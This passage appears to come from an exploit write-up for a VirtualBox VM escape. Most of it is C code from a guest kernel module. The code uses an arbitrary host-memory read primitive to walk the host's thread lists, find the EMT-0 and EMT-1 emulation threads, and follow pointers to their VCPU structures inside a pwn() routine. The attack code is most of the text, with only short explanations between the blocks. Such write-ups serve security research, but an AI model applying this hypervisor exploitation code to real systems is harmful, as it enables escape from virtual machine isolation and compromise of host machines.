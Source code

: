```c
        uint64_t thread_ptr = curr_list - list_off;
        uint64_t tid = arb_read64(thread_ptr + tid_off) & 0xffffffff;
        uint64_t start_routine = arb_read64(thread_ptr + start_routine_off);
        uint64_t next_list = arb_read64(curr_list);
        uint64_t arg = arb_read64(thread_ptr + arg_off);
        uint64_t name = arb_read64(arg + name_off);
        printk(KERN_WARN "Thread %d @ 0x%llx, start @ 0x%llx (0x%llx), next @ 0x%llx\n", tid, thread_ptr, start_routine, arg, next_list);
        if (name == 0x0000302d544d45) {
            // EMT-0
            tls_bases[0] = thread_ptr;
            printk(KERN_WARN "This was EMT-0!\n\n");
        }
        else if (name == 0x0000312d544d45) {
            // EMT-1
            tls_bases[1] = thread_ptr;
            printk(KERN_WARN "This was EMT-1!\n\n");
        }
        curr_list = next_list;
    }

    ...
}
```

We can then follow some pointers and get some more of them:

```c
uint64_t get_vcpu_addr(uint64_t tls_base) {
     uint64_t pUVCpu_addr = arb_read64(tls_base + 0x358);

    print_addr(pUVCpu_addr);

    uint64_t pUVM_addr = arb_read64(pUVCpu_addr);
    uint64_t UVM_magic = arb_read64(pUVM_addr);
    print_addr(UVM_magic);
    uint64_t pVM_addr = arb_read64(pUVCpu_addr + 8);
    uint64_t pVCpu_addr = arb_read64(pUVCpu_addr + 16);

    print_addr(pUVM_addr);
    print_addr(pVM_addr);
    print_addr(pVCpu_addr);

    uint64_t vcpu_addr = pVCpu_addr;

    printk(KERN_WARN "Found vcpu @ 0x%llx\n", vcpu_addr);
    return vcpu_addr;
}

...

void pwn(void)
{
    ...

    uint64_t vcpu_addr = get_vcpu_addr(tls_bases[0]);
    uint64_t vcpu2_addr = get_vcpu_addr(tls_bases[1]);

    ...
}
```
